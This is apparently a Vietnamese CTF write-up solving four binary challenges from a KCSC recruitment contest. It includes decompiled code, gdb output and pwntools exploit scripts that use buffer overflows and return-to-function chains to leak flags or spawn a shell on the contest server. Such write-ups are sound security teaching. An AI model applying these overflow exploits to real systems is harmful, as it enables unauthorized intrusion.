


# kcsc ctf recruit member
_Mình chuẩn bị không kỹ càng lắm nên giải được ít bài =((_
## Treasure


Ta được phát 1 file như này

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ file treasure
    treasure: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9fb3a8f185da018cb4d4149f4b8dfc7335e2542c, for GNU/Linux 3.2.0, not stripped
Chạy thử ta có part1 của flag: 

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ ./treasure
    Part 1: KCSC{
Thử tìm kiếm chuỗi trong file binary thì có part 3: 

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ strings treasure | grep Part
    Part 1: KCSC{
    Part 2: %s
    Part 3: _27651d2df78e1998}
Ném vào IDA tớ phát hiện phần còn lại 



`flag : KCSC{4_t1ny_tr34sur3_27651d2df78e1998}`
## Cat


Vẫn được phát cho một **file binary**

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ file cat
    cat: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4f771cfd97efdbadc12e89fe42513cb94da5a7e8, for GNU/Linux 3.2.0, not stripped
    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ ./cat
    Username: hoho
    Password: hihi
    Unauthorized access is forbidden!
Nó bắt nhập `username` `password` mn ạ :(. Bắt đầu hành trình tìm `username` và `password` của em ló

Đầu tiên cứ phải check xem có gì hay k cái đã
Chạy lệnh strings và tớ tìm đc cái này


Chắc hẳn `Username` là `KCSC_4dm1n1str4t0r`, còn `password` là `wh3r3_1s_th3_fl4g` rồi.
Nhưng mà cuộc đời thì k nên tin bố con thằng nào cả, kể cả thằng ra đề. Nên để chắc chắn thì tớ sẽ check lại (ai ngờ đúng thật =)))

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ ./cat
    Username: KCSC_4dm1n1str4t0r
    Password: wh3r3_1s_th3_fl4g
    Logged in!
    Your secret: aaaaaaaaaaaaaaa
    Saving secret "�aaaaaaaaaaaaaaa
    "...
    Done! Exiting...
Khi `login` thành công ló lại bắt mình nhập cái gì đó =(((. Cứ tưởng `login` thành công sẽ có `flag` chứ


Tạo fake flag debug thử coi

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ echo "fake flag" > flag.txt
    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ gdb cat
Ném vào `IDA` tớ thấy nó đọc **512** byte nên cho nó **600** byte thử
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h]
  int v5; // [rsp+Ch] [rbp-4h]

  init();
  read_flag();
  printf("Username: ");
  v4 = read(0, username, 0x20uLL);
  if ( username[v4 - 1] == 10 )
    username[v4 - 1] = 0;
  printf("Password: ");
  v5 = read(0, password, 0x20uLL);
  if ( password[v5 - 1] == 10 )
    password[v5 - 1] = 0;
  if ( !strcmp(username, "KCSC_4dm1n1str4t0r") && !strcmp(password, passwd) )
  {
    puts("Logged in!");
    printf("Your secret: ");
    read(0, secret, 512uLL);
    printf("Saving secret \"%s\"...\n", secret);
    puts("Done! Exiting...");
  }
  else
  {
    puts("Unauthorized access is forbidden!");
  }
  return 0;
}
```


Ố ồ xem chúng ta có gì nào. Đoạn cuối chính là `fake flag` mình vừa tạo ban nãy
Giờ thì tạo script exploit thôi (hehee boi)
```python
from pwn import *
username = b"KCSC_4dm1n1str4t0r"
passwd = b"wh3r3_1s_th3_fl4g"
payload = b"A"*600
host = "146.190.115.228"
port = 9994
con = remote(host, port)
print(con.recvuntil(b": "))
con.sendline(username)
print(con.recvuntil(b": "))
con.sendline(passwd)
print(con.recvuntil(b": "))
con.sendline(payload)
con.interactive()

```


Yeah sure chắc chắn là như vậy rồi =))
`flag: KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}`
## OverTheWrite


Vẫn là 1 `file binary`. Dow về thôi

    trungdo@TEFO:/mnt/c/ctf/kcsc/overthewrite$ file overthewrite
    overthewrite: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5639b02135698a4424c71be1e331ec297debd234, for GNU/Linux 3.2.0, not stripped
    trungdo@TEFO:/mnt/c/ctf/kcsc/overthewrite$ ./overthewrite
    Welcome to OverTheWrite! Please enter your key to login!
    Key: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Stage 1 failed!
Nghe cái tên đã nặc mùi `bof` rồi. Như thói quen, chạy lệnh `strings` xem có gì hot k (Đã thử và k có gì đặc biệt :( )
Ném vào `IDA`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[4]; // [rsp+0h] [rbp-50h] BYREF
  char s1[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v6; // [rsp+28h] [rbp-28h]
  __int64 v7; // [rsp+38h] [rbp-18h]
  __int64 v8; // [rsp+40h] [rbp-10h]
  int v9; // [rsp+4Ch] [rbp-4h]

  *(_QWORD *)s1 = 0LL;
  v6 = 0LL;
  v9 = 0;
  v8 = 0LL;
  v7 = 0LL;
  buf[0] = 0LL;
  buf[1] = 0LL;
  buf[2] = 0LL;
  buf[3] = 0LL;
  ((void (__fastcall *)(int, const char **, const char **))init)(argc, argv, envp);
  puts("Welcome to OverTheWrite! Please enter your key to login!");
  printf("Key: ");
  read(0, buf, 80uLL);
  if ( v9 != 0x13371337 )
    fail(1u);
  if ( v8 != 0xDEADBEEFCAFEBABELL )
    fail(2u);
  if ( v7 != 0x215241104735F10FLL )
    fail(3u);
  if ( strcmp(s1, "Welcome to KCSC") )
    fail(4u);
  system("/bin/sh");
  return 0;
}
```
Chương trình khởi tạo 1 mảng `buff[4]` và 3 biến local `v6`, `v7`, `v8` có kiểu `_int64` mỗi phần tử chiếm `8 byte`, mảng `char s1[8]`, `int v9` chiếm `4 byte`
chương trình sẽ lần lượt kiểm tra các điều kiện nếu sai thì gọi func `fail()` và `exit` 


Ta cần pass 4 điều kiện trên của chương trình để lấy được shell

    - v9 = 0x13371337
    - v8 = 0xDEADBEEFCAFEBABE
    - v7 = 0x215241104735F10F
    - s1 = "Welcome to KCSC"
    
Riêng `v7` có một chút đặc biệt. Khi dump ra mã `assembly` ta sẽ không thấy nó `cmp` với `0x215241104735F10F` như trong `IDA` mà thay vào đó là lệnh `add` giữa `v7` và `v8` (ở địa chỉ `[rbp-0x10]` và `[rbp-0x18])` rồi so sánh với `0x1234abcd` nên `v8 = 0x1234ABCD - 0xDEADBEEFCAFEBABE` sẽ là số âm và không thể biểu diễn hex âm. Ta có thể sử dụng quy tắc bù 1 để biểu diễn số âm và tìm ra được giá trị của `v7`. Nhưng ở đây do tớ dùng `IDA` nên nó đã đổi sẵn ra rồi (dùng tools nó tiện thế đấy =)) )


`CANARY` *disable* nên hoàn toàn có thể `overflow` được
Còn *exploit* ở đâu? Tất nhiên là ở biến `buff` rồi =))


Look at this. Trước khi 1 func được gọi thì các `argument` của nó sẽ được `push` vào stack trước, nên chắc chắn **[rbp-0x50]** là address của `buff`. Nhưng vấn đề ở đây là func `read` sẽ đọc **0x50 byte** vào `buff` trong khi độ lớn của `buff` chỉ là **8 x 4= 32 byte**. Vậy nên đây là nơi tớ sẽ exploit.

Khi chương trình chạy `stack` sẽ trông dư lày: 


**Exploit**
```python
from pwn import *
v9 = 0x13371337
v8 = 0xDEADBEEFCAFEBABE
v7 = 0x215241104735F10F
s1 = b"Welcome to KCSC\0"
junk = b"A"*100
host = "146.190.115.228"
port = 9992
payload = b"A" * 32 #buff
payload += s1
payload += b"A"*8 #v6
payload += p64(v7)
payload += p64(v8)
payload += b'A'*4
payload += p32(v9)
p = remote(host, port)
#p = process("./overthewrite")
print(p.recvuntil(b": "))
print(payload)
p.send(payload)
p.interactive()

```
Lúc đầu tớ thêm `b"A"` thay vì `/0` vào `s1` nên chạy nó cứ bị sai =))


`flag: KCSC{y0ur_wr1t3_g4v3_y0u_th1s_fl4g_afc4185ea6}`

## ShortJumps
_*Chall này tớ làm mãi mà không xong, hết thời gian thì lại solve được T.T_


Lần này `author` tốt bụng cho cả source code nên không cần dùng tools xem `pseudocode` =))

    trungdo@TEFO:/mnt/c/ctf/kcsc/shortjump$ file shortjumps
    shortjumps: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=9533ce74d3e3b2f97fac5a561b6692944c3f0d59, for GNU/Linux 3.2.0, not stripped
    trungdo@TEFO:/mnt/c/ctf/kcsc/shortjump$ strings shortjumps
Chưa thấy gì đặc biệt lắm
Nghía thử `source code` coi

```c
#include <stdio.h>
#include <stdlib.h>

int jmp = 0;

void init()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

int jmp1(int a)
{
	if (a==0xdeadbeef)
		jmp++;
}

int jmp2(int a, int b)
{
	char command[8] = {0};
	command[0] = '/';
	command[1] = 'b';
	command[2] = 'i';
	command[3] = 'n';
	command[4] = '/';
	command[5] = 's';
	command[6] = 'h';
	command[7] = '\0';

	if (jmp!=1)
	{
		puts("Don't cheat, hacker!");
		exit(0);
	}
	if (a==0xcafebabe && a+b==0x13371337)
		system(command);
}

int main()
{
	char name[0x20];
	char dream[0x50];
	char choose = 'Y';

	init();
	puts("Hi, what's your name?");
	printf("> ");
	scanf("%31s", name);
	getchar();

	puts("Do you have any dream? [Y/n]");
	printf("> ");
	scanf("%c", &choose);

	if (choose=='Y' || choose=='y' || choose=='\n')
	{
		puts("Tell me your dream!");
		printf("> ");
		scanf("%140s", dream);
		getchar();
		puts("Wow, that's interesting!");
	}
}
```
**Suy nghĩ 1 chút...**

Ta có 2 mảng **char** `name[32]` và `dream[80]`. `dream` chỉ có **80 byte** nhưng func `scanf` lại có thể nhận tới **140 byte** -> buffer overflow. Hơn nữa, tớ thấy func `jmp2` đang chứa `shell`, nên chắc ta phải return luồng thực thi của mình về đó, nhưng chỉ jump tới `jump2` thì sẽ fail bởi điều kiện `if`. Ta bypass nó bằng cách jump tới `jmp1` trước sau đó mới jump tới `jmp2`
**Stack của một `function`**


Có thể thấy khi một function được gọi, `return address` sẽ được `push` vào trước và tiếp theo đó là các `arg` của nó sẽ lần lượt được đưa vào `stack`

Vậy khi ta muốn jump đến func nào thì bắt buộc phải overwrite lại `retAdd` và các `arg` của ló

Một điều kiện tiên quyết quyết định ta có thể `jump` được hay không, đó chính là `control EIP`. Dùng `GDB` để kiểm tra.


Dùng `gdb` tạo ra 1 pattern dài 200 byte rồi `put` vào `dream`, `eip` đã hoàn toàn bị `overwrite`. Vì vậy ta có thể điều khiển chương trình đi đến đâu tùy ý 

    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial
`NX` _enable_ nên ta không thể chèn shellcode vào được. Chỉ còn 1 cách là jump thôi =)))

    gdb-peda$ pattern offset $eip
    1095713089 found at offset: 124
Search offset của pattern `eip` đang bị overwrite ta được offset để overwrite `eip` là `124` đi sau đó là địa chỉ của `jm1`. `PIE` _disable_ nên lấy func addr rất đơn giản

    gdb-peda$ p jmp1 
    $3 = {<text variable, no debug info>} 0x80492b4 <jmp1> #địa chỉ của jmp1 là 0x80492b4
    gdb-peda$ p jmp2
    $4 = {<text variable, no debug info>} 0x80492e0 <jmp2> #địa chỉ của jmp2 là 0x80492e0

Tiếp theo là `retAdd` và các `arguments`. `RetAdd` tớ sẽ để nó là địa chỉ của `jmp2` luôn. Sau đó sẽ `overwrite` lại `retAdd` của `jmp2` và `push` các đối số của nó vào.
Tới đây lại phát sinh vấn đề. `a + b = 0x13371337` mà `a = 0xcafebabe` nên chắc chắn `b` sẽ âm, ta không thể biểu diễn hex âm được nên tớ chọn cách dùng số bù 1 thì được `b = 0x48385879`.


 Tớ nhận được 1 hint siêu to khổng lồ của `author` là _integer overflow_. Làm tràn số đến byte thứ 9 nhưng bộ nhớ chỉ lấy 4byte int nên sẽ có thế bypass được. Ta sẽ làm cho `a + b` tràn đến byte số 9 bằng cách `a + b = 0x113371337` => `b = 0x48385879`
**Đầy đủ nguyên liệu rồi viết script exploit thôi**

```python
from pwn import *
jmp1 = 0x80492b4
a = 0xdeadbeef #arg của jmp1
jmp2 = 0x80492e0
a2 = 0xcafebabe # arg1 của jmp2
b2 = 0x48385879 # arg2 của jmp2
pl1 = b"do0"
pl2 = b"A"*124 # bof tới eip
pl2 += p32(jmp1) #ret2jmp1
pl2 += p32(jmp2) # overwrite retAdd của jmp1 là địa chỉ của jmp2 để sau khi jm1 thực thi xong sẽ nhảy sang jmp luôn
pl2 += p32(a)
pl2 += b"A"*4 #overwrite retAdd của jmp2
pl2 += p32(a2)
pl2 += p32(b2)
# p = process("./shortjumps")
p = remote("146.190.115.228", 9993)
print(p.recvuntil(b"> "))
p.sendline(pl1)
print(p.recvuntil(b"> "))
p.sendline(b"y")
print(p.recvuntil(b"> "))
p.sendline(pl2)
print(p.recvall())
p.interactive()  

``` 
Chạy thử và không thành công =(((


Có lẽ các `arg` của `jmp2` không được `push` đúng vị trí. Để an toàn hơn tớ sẽ return về `main`. Sau khi jump tới `jmp1` để thay đổi giá trị của `jmp` thì tớ sẽ return về func `main` sau đó từ `main` mới jump tới `jmp2`

    gdb-peda$ p main
    $1 = {<text variable, no debug info>} 0x8049378 <main>
**Viết lại script**
```python
from pwn import *
jmp1 = 0x80492b4
a = 0xdeadbeef 
jmp2 = 0x80492e0
a2 = 0xcafebabe 
b2 = 0x48385879 
main = 0x8049378
pl1 = b"A"*124
pl1 += p32(jmp1) 
pl1 += p32(main) 
pl1 += p32(a)

pl2 = b"A"*124
pl2 += p32(jmp2) 
pl2 += p32(main)
pl2 += p32(a2)
pl2 += p32(b2)
p = remote("146.190.115.228", 9993)
print(p.recvuntil(b"> "))
p.sendline(b"do0")
print(p.recvuntil(b"> "))
p.sendline(b"y")
print(p.recvuntil(b"> "))
p.sendline(pl1)
#send payload2
print(p.recvuntil(b"> "))
p.sendline(b"do0")
print(p.recvuntil(b"> "))
p.sendline(b"y")
print(p.recvuntil(b"> "))
p.sendline(pl2)
print(p.recvall())
p.interactive()  
```
Successful! We got the flag!!!!!

`flag: KCSC{jump1ng_1s_1nt3r3st1ng_1snt_1t?_7dc4c818f3}`